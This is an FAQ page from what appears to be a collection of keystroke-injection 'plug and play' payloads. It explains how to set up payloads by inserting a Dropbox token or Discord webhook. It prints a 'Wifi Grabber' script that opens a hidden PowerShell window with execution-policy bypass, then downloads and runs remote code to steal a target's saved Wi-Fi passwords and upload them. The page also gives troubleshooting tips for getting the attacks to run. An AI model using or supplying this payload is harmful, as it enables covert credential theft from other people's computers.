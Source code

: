 # FAQ

## 1. The code is executed but the Powershell code just opens and closes and nothing happens

In order for Jakoby or one of his Admin's to properly help you we need to assess and find an error to work with. 

The first step is to replace `-w h` with `-noexit` in your code. This will keep the Powershell window open and display any errors you may have 

Take a screen shot of the error and include it with your help request

----------------------------------------------------------------------------------------------------------------------------------------

## 2. How do I use a plug and play payload? 

These payloads are designed to make them as easy as possible to use. 
* There is no longer a need to download a copy, modify it, and host somewhere yourself  
* Simply plug in your Dropbox token or Discord webhook into the appropriate variable 

Using the Wifi Grabber payload as an example:
`$dc=''` is for Discord    |    `$db=''` is for Dropbox

```
REM     Title: Wifi Grabber
REM     Author: M3
REM     Description: This payload grabs your target's wifi passwords and uploads them to either Dropbox, Discord, or both.
REM     Target: Windows 10, 11

GUI r
DELAY 500
STRING powershell -w h -NoP -Ep Bypass $dc='YOUR-DISCORD-WEBHOOK';$db='YOUR-DROPBOX-TOKEN';iwr MYDOMAIN.HERE/e8v | iex
ENTER
```

----------------------------------------------------------------------------------------------------------------------------------------

## 3. What is a Dropbox token and how do I use it? 
You can use this video to learn all about it
https://www.youtube.com/watch?v=VPU7dFzpQrM
----------------------------------------------------------------------------------------------------------------------------------------

## 4. What is a Discord Webhook and how do I use it? 
You can use this video to learn all about it
https://youtu.be/Zs-1j42ySNU">
        
